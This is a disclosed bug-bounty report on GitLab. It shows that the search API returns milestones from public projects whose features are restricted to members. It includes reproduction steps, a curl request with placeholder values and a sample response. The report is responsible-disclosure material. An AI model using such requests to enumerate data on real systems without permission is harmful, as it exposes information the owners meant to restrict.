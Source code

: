 # Milestones leaked via search API

## Report Details
- **Report ID**: 460815
- **URL**: https://hackerone.com/reports/460815
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-12-11T20:40:56.144Z
- **Disclosed**: 2019-07-19T09:51:32.461Z

## Reporter
- **Username**: xanbanx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
GitLab allows to restrict the project features for public projects. When disabling all features of a public project for non-project members under `https://gitlab.com/xanbanx/test-search/edit`, full access to milestones is still possible via the search API.

## Steps To Reproduce:

Reproduced on GitLab 11.6.0-rc4-ee

  1. Create a public project, disable all features for non-project members by setting all features under `https://gitlab.com/xanbanx/test-search/edit` to `Only Project Members`
  2. Create a new milestone, e.g., named `milestone`
  3. As a non-project member perform the following API request (substitute the project id)

```bash
curl --request GET --header "PRIVATE-TOKEN: <YOUR-TOKEN>" https://gitlab.example.com/api/v4/projects/<project-id>/search?search=milestone&scope=milestones
```

Although the user does not have access to the project and is no project member, the API returns:
```json
[
    {
        "id": 123,
        "iid": 1,
        "project_id": 12,
        "title": "milestone",
        "description": "milestone",
        "state": "active",
        "created_at": "2018-12-11T20:03:25.381Z",
        "updated_at": "2018-12-11T20:03:25.381Z",
        "due_date": null,
        "start_date": null,
        "web_url": "https://gitlab.example.com/namespace/project/milestones/1"
    }
]
```

## Impact

By using the search API any user with limited access can enumerate all milestones via the search API. Milestones can include critical information, e.g., related to upcoming security milestones, etc..

## Attachments
No attachments
